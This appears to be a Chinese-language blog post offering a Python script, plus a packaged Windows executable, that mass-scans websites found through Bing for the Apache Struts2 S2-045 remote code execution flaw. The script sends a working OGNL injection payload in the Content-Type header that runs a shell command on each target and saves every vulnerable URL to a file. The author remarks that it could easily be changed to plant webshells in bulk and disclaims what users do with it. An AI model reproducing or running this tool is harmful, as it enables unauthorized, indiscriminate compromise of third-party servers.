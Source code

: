 title: s2-045漏洞批量检测工具
date: 2017-03-07 21:28:53
update: ""
author: me
tags:
- Tools
- Hacker
categories:
- Tools
topic: ""
cover: ""
draft: false
preview: ""
top: false
type: ""
hide: false
config: null


---



今天晚上看老铁们在群里就这个st2-045漏洞讨论得火热，个人不太喜欢日站，本来想直接写个批量挂马的东西，但是想想还是算了，如果你有兴趣，改改也很容易，反正不关我的事

测试图
![TIM图片20170307212124.png](https://ooo.0o0.ooo/2017/03/07/58beb8f48f7df.png)
<!--more-->

**2017-3-8更新**
- 增加了对.do关键词的支持，并且支持任何关键词了，之前我只考虑到了.action关键词并且写死了规则，py版本已经更新，~~win版的exe未更新，需要的自行用pyinstaller打包为exe~~
- 之前采用whoami如果返回200状态码就判断存在漏洞，但是现在很多已经修复了，导致访问之后依旧会跳到正常页面返回200状态码，于是我改了一下判断，执行命令echo xxxx，如果返回结果中含有xxxx就证明漏洞存在
- win版exe已经打包
- **重要：建议大家都使用py版本，经过群友测试，exe版本对中文关键词的支持不太好，会出现错误，如果使用上有问题可评论**
- **exe版本会出现扫描过慢的情况，强烈建议py版本，鉴于有些朋友说不会配置python环境，我在下面给出了例子**
- **有些朋友说自定义关键字字典出错，这里要提一句，你的字典txt的编码需要是utf-8，有些东西因为写的比较快没考虑太全，见谅**
![TIM图片20170308132948.png](https://ooo.0o0.ooo/2017/03/08/58bf96eadc438.png)


**依赖包的安装**
```bash
//首先你需要安装一个python，在安装图中记得把有pip的选项和add python to path类似的选项勾选上，然后安装完成后执行python -version和pip
//如果执行python -version提醒你有问题，试着重启一下cmd或者电脑，或者检查你的path环境变量下有没有python的安装的路径，没有的话就加上
//如果正常证明环境安装成功，如果执行pip提醒你没有pip，就把你python安装路径下的Scripts目录加到path环境变量，然后在命令行在执行以下代码
pip install requests
pip install beautifulsoup4
```

对于此脚本所放置文件夹下必须有keyword.txt用来存放一行行的关键词
最开始是打算直接全部读取然后一个一个跑，不过感觉时间太漫长，测试时间太久
后来改成关键词就是自己输入，但是又感觉太麻烦
然后就变成了现在的读取关键词然后标号直接输入序号就可以
途中遇到了有的网址直接拒绝访问导致报错，还有的超时一直不返回报文，这些都解决了，个人测试的结果还可以，结果保存在一个txt下，至于你想再干些什么，不关我的事情了

**说明**
例子：
```bash
python s2-045.py 9 10
```
第一个参数是你的文件名，第二个是关键词所对应的序号，第三个是你需要爬行的页数
序号与关键词的对应，可以直接运行`python s2-045.py`就可以产看帮助
脚本采用的bing搜索引擎，**文件我会打包在下面**


上代码,**python2和3通用**

```python
# encoding:utf-8
import sys,requests
from bs4 import BeautifulSoup

keyword = {}
with open("keyword.txt") as f:
    i = 0
    for keywordLine in f:
        keyword[str(i)] = keywordLine.strip()
        i += 1

usage = '''
usage : python s2-045.py 0 10

first parameter is your filename
second parameter is your keyword's number which will be used by Bing
Third parameter is the page number you want to crawl\n'''

def poc(actionURL):
    data = '--447635f88b584ab6b8d9c17d04d79918\
    Content-Disposition: form-data; name="image1"\
    Content-Type: text/plain; charset=utf-8\
    \
    x\
    --447635f88b584ab6b8d9c17d04d79918--'
	
    header = {
        "Content-Length" : "155", 
        "User-Agent" : "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36", 
        "Content-Type" : "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo hereisaexp').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}", 
    }
    try:
        request = requests.post(actionURL, data=data, headers=header, timeout = 10)
    except:
        return "None", "Refused"
    return request.text, request.status_code

def returnURLList():
    keywordsBaseURL = 'http://cn.bing.com/search?q=' +keyword[sys.argv[1]]+ '&first='
    n =0
    i = 1
    while n < int(sys.argv[2]):
        baseURL = keywordsBaseURL + str(i)
        try:
            req = requests.get(baseURL)
            soup = BeautifulSoup(req.text, "html.parser")
            text = soup.select('li.b_algo > h2 > a')
            if '.action' in keyword[sys.argv[1]]:
                standardURL = [url['href'][:url['href'].index('.action')]+'.action' for url in text if '.action' in url['href']]
            elif '.do' in keyword[sys.argv[1]]:
                standardURL = [url['href'][:url['href'].index('.do')]+'.do' for url in text if '.do' in url['href']]
            else:
                standardURL = [url['href'] for url in text]
        except:
            print("HTTPERROR")
            continue
        i += 10
        n += 1
        yield standardURL

def main():
    if len(sys.argv) != 3:
        print(usage)
        for k,v in keyword.items():
            print("%s is %s"%(k, v))
        sys.exit()

    for urlList in returnURLList():
        for actionURL in urlList:
            text, code = poc(actionURL)
            if 'hereisaexp' in text:
                print(str(code) + "----Successful----" + actionURL + '\n')
                with open("AvailableURL.txt","a") as f:
                    f.write(actionURL+'\n')
            else:
                print(str(code)+'----'+actionURL+'\n')

if __name__ == '__main__':
    main()
```

**[下载地址](http://file.codecat.one)**

**打包了win版，大家可以直接使用，例如在该exe目录下执行~~（更新的并未打包出exe，如有需要可以自行用pyinstaller打包）~~**
```bash
s2-045.exe 9 10
```
**其他用法参照上面**
**转载请注明出处**
